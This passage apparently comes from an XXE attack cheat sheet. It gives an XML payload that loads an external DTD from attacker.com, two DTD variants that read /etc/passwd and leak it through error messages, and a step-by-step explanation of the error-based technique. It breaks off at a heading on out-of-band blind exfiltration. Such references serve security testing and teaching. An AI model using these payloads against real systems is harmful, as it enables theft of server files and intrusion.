 ```xml
<?xml version="1.0" ?>
<!DOCTYPE message [
    <!ENTITY % ext SYSTEM "http://attacker.com/ext.dtd">
    %ext;
]>
<message></message>
```

**Content of ext.dtd**

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

**Alternative content of ext.dtd**

```xml
<!ENTITY % data SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; leak SYSTEM '%data;:///'>">
%eval;
%leak;
```

Let's break down the payload:

1. `<!ENTITY % file SYSTEM "file:///etc/passwd">`
  This line defines an external entity named file that references the content of the file /etc/passwd (a Unix-like system file containing user account details).
2. `<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">`
  This line defines an entity eval that holds another entity definition. This other entity (error) is meant to reference a nonexistent file and append the content of the file entity (the `/etc/passwd` content) to the end of the file path. The `&#x25;` is a URL-encoded '`%`' used to reference an entity inside an entity definition.
3. `%eval;`
  This line uses the eval entity, which causes the entity error to be defined.
4. `%error;`
  Finally, this line uses the error entity, which attempts to access a nonexistent file with a path that includes the content of `/etc/passwd`. Since the file doesn't exist, an error will be thrown. If the application reports back the error to the user and includes the file path in the error message, then the content of `/etc/passwd` would be disclosed as part of the error message, revealing sensitive information.





## Exploiting blind XXE to exfiltrate data out-of-band

Sometimes you won't have a result outputted in the page but you can still extract the data with an out of band attack.

### Basic Blind XXE
